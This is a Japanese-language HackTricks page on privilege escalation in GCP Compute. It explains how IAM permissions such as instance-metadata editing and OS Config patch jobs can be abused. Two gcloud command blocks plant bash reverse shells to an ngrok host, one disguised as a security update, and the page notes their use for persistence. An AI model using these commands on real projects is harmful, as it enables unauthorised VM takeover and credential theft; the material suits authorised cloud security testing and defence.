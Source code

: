 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCPにおけるComputeとVPC（ネットワーク）に関する詳細情報は、以下を確認してください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要があるすべての特権昇格攻撃（新しいユーザーやSSHキーの追加など）を実行するには、**インスタンスに添付されたSAに対して`actAs`権限を持っている必要があります**。たとえSAがすでに添付されていてもです！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つことで、**インスタンス**の**メタデータ**情報を**変更**し、**ユーザーの認証キーを変更**したり、**sudo**権限を持つ**新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSHで接続し、そのインスタンスが実行しているGCPサービスアカウントを盗むことができます。\
制限事項：

* GCPサービスアカウントは、VMインスタンスでデフォルトで**非常に限られたスコープ**を持っています。
* ログインするために**SSH**サーバーに連絡できる必要があります。

この権限を悪用する方法についての詳細は、以下を確認してください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しいスタートアップスクリプトを追加し、インスタンスを再起動することでこの攻撃を実行することもできます：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、**プロジェクト全体ではなく特定のインスタンスに対して前の権限と同じ特権を与えます**。**前のセクションと同じ脆弱性と制限が適用されます**。

### `compute.instances.setIamPolicy`

この種の権限は、**前の権限を持つ役割を自分に付与し、これを悪用して特権を昇格させることを可能にします**。

### **`compute.instances.osLogin`**

**インスタンスでOSLoginが有効になっている場合**、この権限を使用すると、単に**`gcloud compute ssh [INSTANCE]`**を実行してインスタンスに接続できます。インスタンス内では**root権限はありません**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

**インスタンスでOSLoginが有効になっている場合**、この権限を使用すると、単に**`gcloud compute ssh [INSTANCE]`**を実行してインスタンスに接続できます。インスタンス内では**root権限があります**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**サービスアカウントが割り当てられた仮想マシンを作成し、メタデータにアクセスしてトークンを盗むことが可能です**。これにより、特権を昇格させることができます。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`**または**`osconfig.patchJobs.exec`**権限を持っている場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)を作成できます。これにより、環境内で横移動し、プロジェクト内のすべてのコンピュートインスタンスでコード実行を得ることができます。

現時点では、インスタンスにアタッチされたSAに対して**`actAs`権限は必要ありません**。

これを手動で悪用したい場合は、[**パッチジョブ**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **または** [**デプロイメント**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**を作成する必要があります。**\
パッチジョブを実行するには： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

パッチデプロイメントを展開するには：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) は、過去にこの誤設定を悪用するために使用されていました（しかし、現在は動作していません）。

**攻撃者はこれを持続性のために悪用することもできます。**

### `compute.machineImages.setIamPolicy`

**コンピュートイメージに対して追加の権限を付与します。**

### `compute.snapshots.setIamPolicy`

**ディスクスナップショットに対して追加の権限を付与します。**

### `compute.disks.setIamPolicy`

**ディスクに対して追加の権限を付与します。**

### アクセススコープのバイパス

このリンクをたどると、[**アクセススコープをバイパスするためのアイデア**](../)が見つかります。

### GCPコンピュートインスタンスにおけるローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
